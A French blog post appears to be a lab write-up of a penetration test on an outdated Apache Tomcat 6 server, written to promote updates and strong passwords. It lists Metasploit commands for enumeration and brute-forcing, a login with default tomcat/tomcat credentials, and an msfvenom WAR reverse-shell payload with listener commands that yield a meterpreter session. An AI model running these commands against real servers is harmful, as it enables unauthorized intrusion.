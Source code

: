 ```yaml
---
layout: post
title:  "Test d'intrusion sur un serveur Apache Tomcat"
date:   2021-10-19
last-update: 
categories: linux securite
tags: shell ssh linux tomcat
image: /assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG 
description: cet article présente un test d'intrusion sur une ancien version d'un serveur apache tomcat afin de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```




>Ce write-up présente les possibles vulnérabilités d'un serveur Apache tomcat 6.18 (ancienne version) afin de sensibiliser l'utilisateur à certaines bonnes pratiques lors la configuration d'un serveur apache tomcat, notamment :
>
>-Tenir à jour sa version tomcat
>
>-Utiliser des mots de passes forts
>
>Tous les exemples montrés sur cet article l'ont été sur des machines de laboratoires.
>



## Introduction

Lors d'un laboratoire, après avoir avoir scanné le réseau avec nmap, j'ai pu voir qu'un serveur tomcat tournait sur le port 8080 à l'adresse <IP>.

![tomcat-scan]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-scan.PNG)



 En accédant depuis le navigateur, j'accédais à la page d'accueil du serveur. En rouge, deux adresses url intéressantes car elles permettent d'accéder à l'interface d'administration du serveur.

![tomcat-index]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-index.PNG)

## Tentative

Avant de trouver la bonne solution, quelques tentatives ont été réalisées avec metasploit

### tomcat_enum

Ce module énumère les noms d'utilisateurs apache en envoyant des requête malformées au j_security_check.

Version vulnérable : 4.1.0 - 4.1.39, 5.5.0 - 5.5.27, and 6.0.0 - 6.0.18

Les nouvelles versions de Tomcat ne sont pas vulnérable

```
use auxiliary/scanner/http/tomcat_enum
set RHOST <target IP:PORT> 
run
```

Source : 

- [https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_enum/](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_enum/)
- [https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples)



#### Résultat 

L'attaque n'a pas fonctionnée dans mon cas

### dir_scanner

Le scanner de répertoire permet de scanner un serveur web afin de trouver des répertoires intéressants. 

```
use auxiliary/scanner/http/dir_scanner
SET RHOST <target IP>
set RPOT <traget PORT>
run
```

Source :

[www.offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

#### Résultat 

L'exploit n'a pas trouvé de répertoires sensibles.

### Brute-force login

Le module tomcat_mgr_login permet de brute-forcer la page de login du manager :

Source :

-  [www.rapid7.com - http/tomcat_mgr_login/](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)



## Solution



Sur la page http, on peut voir un lien url vers la page manager demandant un mot de passe et un nom d'utilisateur.

### "Brute-force" manuel du login

Sur ce github, on peut trouver tout une liste de mot de passe habituel/par défaut : [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

En cherchant également sur internet, je suis tombé sur plusieurs articles qui utilisaient la pair tomcat /tomcat comme nom d'utilisateur / mot de passe.

En essayant sur la page => bingo.

On arrive ainsi sur la page manager

![tomcat-manager]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG)



### shell - Upload war

Une fois sur la page de manager, on peut tenter d'obtenir un reverse shell un uploadant un fichier war.

#### Tentative ratée

Ayant mal configuré mon metasploit,t j'ai crû que les modules  metasploit ne fonctionnaient pas. J'obtenais l'erreur suivante : 

> Handler failed to bind <ip>

 J'ai donc tenté de "crafté" moi-même mon war en passant par `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war -o rshell3.war
```

Puis après avoir cliqué sur le fichier uploadé dans le manager, j'ai lancé avec metasploit et netcat des serveurs pour "écouter"

- metasploit

```bash
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST <IP>
set LPORT <PORT>
exploit
```

Documentation officielle : [offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

- netcat

```bash
nc -lvp 1234
```

J'ai probablement mal configuré mes attaques car celles-ci ne fonctionnaient pas



#### Source 

Cet article explique comment créer son propre payload avec MSFVenom

[vk9-sec.com/apache-tomcat-manager-war-reverse-shell/](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)

#### Tentative réussie

J'ai retenté avec metasploit où j'ai découvert que je n'avais pas configuré mon LHOST et c'était alors mon IP habituel au lieu de celle du VPN qui était prise. C'est pour cela que j'avais l'erreur 

> Handler failed to bind <ip>

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <target IP>
set RPORT 8080
set LHOST <IP>
set HttpUsername tomcat
set HttpPassword tomcat
exploit
```

Il suffit ensuite d'attendre quelques instants pour obtenir une session meterpreter et le tour est joué :)

![tomcat-meterpreter]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-meterpreter.png)

Sur le manager, on peut constater qu'un fichier a été uploadé

![manager-file-upload]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/manager-file-upload.png)



Source : 

[rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)



## Sources 

- [https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
- [https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)
- Plusieurs attaques sur tomcat : [book.hacktricks.xyz - tomcat#examples](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples)
- Documentation officielle metasploit : [rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)